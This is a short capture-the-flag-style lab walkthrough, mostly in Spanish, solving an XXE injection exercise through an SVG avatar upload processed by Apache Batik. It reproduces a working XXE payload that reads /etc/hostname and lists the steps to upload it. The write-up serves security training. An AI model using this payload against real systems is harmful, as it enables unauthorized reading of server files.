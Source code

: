 # Exploiting XXE via image file upload

This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

Deberemos ir a este repositorio [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE Injection/README.md#xxe-inside-svg](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-svg) y el código que pone en el apartado classic nos lo copiaremos a un archivo con extensión svg

```bash
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="[http://www.w3.org/2000/svg](http://www.w3.org/2000/svg)" xmlns:xlink="[http://www.w3.org/1999/xlink](http://www.w3.org/1999/xlink)" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

![image.png](image.png)

Escribimos un nuevo comentario rellenamos y subimos el archivo con el texto que acabamos de poner.

![image.png](image%201.png)

Vemos que se ha añadido un comentario, con la imagen.

![image.png](image%202.png)

Visualizamos la imagen en grande.

![image.png](image%203.png)

Ahora vamos al apartado submit solution 

![image.png](image%204.png)